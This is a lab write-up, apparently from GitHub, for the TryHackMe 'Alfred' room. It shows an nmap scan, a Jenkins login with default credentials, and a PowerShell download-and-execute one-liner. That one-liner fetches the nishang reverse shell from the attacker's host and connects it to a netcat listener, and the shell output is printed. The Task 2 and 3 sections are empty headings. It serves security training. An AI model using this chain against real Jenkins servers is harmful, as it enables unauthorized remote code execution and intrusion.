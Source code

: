 # $${\color{orange}TryHackMe - Alfred}$$
- [Challenge Information](#challenge-information)
- [Solution](#solution)

## Challenge Information
<a name="challenge-information"></a>

```text
  Level: Easy
  Author: tryhackme
  Description: Exploit Jenkins to gain an initial shell,
then escalate your privileges by exploiting Windows authentication tokens.
```

## Solution
<a name="solution"></a>

- [Task 1](#task1)
- [Task 2](#task2)
- [Task 3](#task3)


## $${\color{red}Task \space \color{red}1: \space \color{red}Inicial \space \color{red}Access}$$

### How many ports are open? (TCP only)?
Use this command and I can have a nmap record to review if needed.
```
nmap -T4 -sT -Pn -sV -v 10.10.212.252 -oN nmap.txt
...
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 7.5
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```
## $${\color{blue}Open \space \color{blue}Ports}$$
- $${\color{orange}80/tcp}$$
- $${\color{green}3389/tcp}$$
- $${\color{lightblue}8080/tcp}$$

## What is the username and password for the login panel? (in the format username:password)?
For this question, I did access the website port 8080 which is a login page and using burpsuite where I tried to brute-force the credentials to login but I couldn't make it
Therefore, I did some google research of the default credentals and foundt that the default username is `admin`. 
Some pages might say that the default password is `Password` but it did not work for this case so I accidentally tried `admin` and it passed !!!@!!@! How fortunate I am!!!
I personally do not recommend using `hydra` or `ffuf` because in my case it did not work properly, may be I'm still a `script-kiddie`.
=> The answer is `admin:admin`

### Then I have to download this payload to my machine by using this command
```
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
```
First I set up a http ser ver by python (requiring root privilege, so I have to use sudo)
```
sudo python3 -m http.server 80
```
Simultanously, I also set up a netcat reverse shell with port 5678
```
nc -lvnp 5678
```
### Back to the point where I successfully logged in to the website via port 8080, I saw the project then click on that
### I spotted that the configure section allowing me to execute commnads then I just copied and pasted the following command (remember to modify your IP and PORT appropriately)
```
 powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port 5678
```
Afterwards, I wrote the description title and hit the `Apply` first then hit the `Save`

## $${\color{yellow} NOTE}$$
The fun part of this is how to execute the inputed command. Click on the `Build Now`, the command would be executed
```
$ sudo python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.212.252 - - [21/May/2025 01:00:28] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```
On the other side, I had conncected to the machine
```
$ nc -lvnp 5678                                     
listening on [any] 5678 ...
connect to [10.23.99.113] from (UNKNOWN) [10.10.212.252] 49377
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>
PS C:\Program Files (x86)\Jenkins\workspace\project>cd C:\\
PS C:\> ls


    Directory: C:\


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019  10:21 PM            inetpub                           
d----         7/14/2009   4:20 AM            PerfLogs                          
d-r--        10/27/2019  12:12 AM            Program Files                     
d-r--        10/25/2019   9:54 PM            Program Files (x86)               
d-r--        10/26/2019   9:22 PM            Users                             
d----        10/27/2019  12:25 AM            Windows                           

```
Note that I was looking for user.txt therefore it should be located in the Users folder
```
PS C:\> cd Users
PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019   8:05 PM            bruce                             
d----        10/25/2019  10:21 PM            DefaultAppPool                    
d-r--        11/21/2010   7:16 AM            Public                            

```
```
PS C:\Users> cd bruce
PS C:\Users\bruce\Desktop> ls


    Directory: C:\Users\bruce\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                                                 
-a---        10/25/2019  11:22 PM         32 user.txt  
```

## $${\color{red}Task \space \color{red}2: \space \color{red}Switchings \space \color{red}shells}$$
<a name="task2"></a>
## $${\color{red}Task \space \color{red}3: \space \color{red}Privilege \space \color{red}Escalation}$$
<a name="task3"></a>
